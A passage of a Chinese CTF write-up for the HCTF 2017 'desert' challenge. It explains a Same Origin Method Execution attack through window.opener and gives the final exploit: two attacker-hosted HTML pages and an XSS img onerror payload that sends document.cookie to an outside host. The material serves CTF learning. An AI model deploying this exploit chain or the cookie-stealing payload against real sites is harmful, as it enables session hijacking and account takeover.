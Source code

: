如果执行`UpdateProfile`，站内就会把子窗口的内容发送到父窗口中。但是我们还是没办法控制修改的内容。

回顾站内逻辑，当我们点击click me，首先请求`/edit.php?callback=RandomProfile`，然后跳转至任意`http://hctf.com/edit.php?callback=RandomProfile&user=xiaoming`，然后页面关闭并，更新信息到当前用户上，假设这里user是我们设定的还有恶意代码的user，那我们就可以修改admin的信息了，但，怎么能让admin打开这个页面呢？

我们可以尝试一个，如果直接打开`edit.php?callback=RandomProfile&user=xiaoming`
![image.png-7.7kB][2]

报错了，不是通过open打开的页面，寻找不到页面内的`window.opener`对象，也就没办法做任何事。

这里我们只有通过SOME，才能操作同源下的父窗口，首先我们得熟悉同源策略，同源策略规定，只有同源下的页面才能相互读写，如果通过`windows.open`打开的页面是同源的，那么我们就可以通过`window.opener`对象来操作父子窗口。

而SOME就是基于这种特性，可以执行同源下的任意方法。

最终payload：

vps, 1.html
```
<script>
    function start_some() {
        window.open("2.html");
        location.replace("http://desert.2017.hctf.io/user.php");
    }

    setTimeout(start_some(), 1000);
</script>
```

vps, 2.html
```
<script>
    function attack() {
        location.replace("http://desert.2017.hctf.io/edit.php?callback=RandomProfile&user=lorexxar");
    }

    setTimeout(attack, 2000);

</script>
```

在lorexxar账户的message里添加payload
```

<img src="\" onerror=window.location.href='http://0xb.pw?cookie='%2bdocument.cookie>
```

getflag!


  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/tzbaummy81p4ycznfzj0ladl/image.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/ik54i9k8irjz1biosk5xnunu/image.png
